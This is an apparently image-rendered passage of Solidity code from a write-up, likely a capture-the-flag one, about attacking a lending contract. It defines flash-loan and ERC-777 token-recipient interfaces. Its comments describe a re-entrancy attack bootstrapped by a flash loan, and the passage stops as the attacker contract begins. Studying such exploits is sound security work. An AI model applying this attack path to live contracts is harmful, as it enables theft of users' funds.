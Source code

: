 ```solidity
    function borrow(uint256 _amount) external;
    function repay(uint256 _amount) external;
    function liquidate(address _borrower) external;
    function updatedAccount(
        address _accountOwner
    ) external view returns (LoanAccount memory account);
}

// This is one of the interface of our attacker contract.
// onFlashLoan will be called by the FlashLender (see the next interface)
// when this function is called we actually have the gold token in the 
// attacker contract
interface IERC3156FlashBorrower {
    function onFlashLoan(
        address initiator,
        address token,
        uint256 amount,
        uint256 fee,
        bytes calldata data
    ) external returns (bytes32);
}

// This one is the interface for the flash loan borrower.
// This is where we find the initial golds that will boostrap the whole attack
// and the ones that we have to repay at the end of the flashloan (+ fee) but there
// is no fees in this scenario.
interface IERC3156FlashLender {

    function maxFlashLoan(
        address token
    ) external view returns (uint256);

    function flashFee(
        address token,
        uint256 amount
    ) external view returns (uint256);

    function flashLoan(
        IERC3156FlashBorrower receiver,
        address token,
        uint256 amount,
        bytes calldata data
    ) external returns (bool);
}

// This is the second interface that our FlashLoan contract implement
// It is basically where the re-entrancy attack begins !
interface IERC777TokensRecipient {
    function tokensReceived(
        address operator,
        address from,
        address to,
        uint256 amount,
        bytes calldata userData,
        bytes calldata operatorData
    ) external;
}


// And there it is ! The FlashLoan attacker contract wich implements the whole
// attack logic
contract FlashLoan is IERC3156FlashBorrower, IERC777TokensRecipient {

```
